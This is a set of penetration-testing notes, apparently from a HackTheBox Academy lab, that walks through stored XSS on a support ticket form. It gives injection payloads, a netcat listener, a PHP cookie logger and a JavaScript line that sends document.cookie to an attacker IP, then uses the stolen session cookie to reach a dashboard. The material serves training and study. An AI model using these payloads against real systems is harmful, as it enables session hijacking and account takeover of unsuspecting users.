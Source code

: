 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# XSS

## Example

{% hint style="info" %}
The below example has been taken from the [Web Enumeration & Exploitation](https://academy.hackthebox.com/module/163/section/1544) of HTB's Attacking Enterprise Networks module.&#x20;
{% endhint %}

We have found a **ticket form** on `support.local.htb` (Figure 1).

<div align="center">

<figure><img src="../../../.gitbook/assets/xss_ticket_form.png" alt="" width="375"><figcaption><p>Figure 1: A form that can we can raise ticket to the support department.</p></figcaption></figure>

</div>

We can first **test** if it is vulnerable to XSS (Figure 2).

{% tabs %}
{% tab title="1. Payload" %}
```javascript
 "><script src=http://10.10.15.131:1337/test</script>
```
{% endtab %}

{% tab title="2. Listener" %}
```bash
nc -lvnp 1337
```
{% endtab %}
{% endtabs %}

<figure><img src="../../../.gitbook/assets/xss_test.png" alt=""><figcaption><p>Figure 2: Testing XSS.</p></figcaption></figure>

Next, we will **steal the cookie** of the person who will process our ticket (Figure 3) by:

1. Creating a script (`index.php`) that will expand the stolen cookie.
2. Creating another script (`script.js`) that will steal the user's cookie, request `index.php` and pass it as a value to `index.php`.&#x20;
3. Passing a payload that will request `script.js`.

{% tabs %}
{% tab title="index.php" %}
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
```
{% endtab %}

{% tab title="script.js" %}
```javascript
new Image().src='http://10.10.15.131/index.php?c='+document.cookie
```
{% endtab %}

{% tab title="Python HTTP Server" %}
```bash
python3 -m http.server 80
```
{% endtab %}

{% tab title="Payload" %}
```javascript
"><script src=http://10.10.15.131/script.js></script>
```
{% endtab %}
{% endtabs %}

<figure><img src="../../../.gitbook/assets/xss_cookie.png" alt=""><figcaption><p>Figure 3: Snatching the support staff's cookie.</p></figcaption></figure>

By adding a new session cookie (Figure 4) and refreshing the page, we gain elevated access (Figure 5).

<div align="center">

<figure><img src="../../../.gitbook/assets/xss_creating_cookie.png" alt=""><figcaption><p>Figure 4: Creating a new session cookie.</p></figcaption></figure>

</div>

<figure><img src="../../../.gitbook/assets/xss_dashboard_access.png" alt=""><figcaption><p>Figure 5: Refreshing the page gives us dashboard access.</p></figcaption></figure>
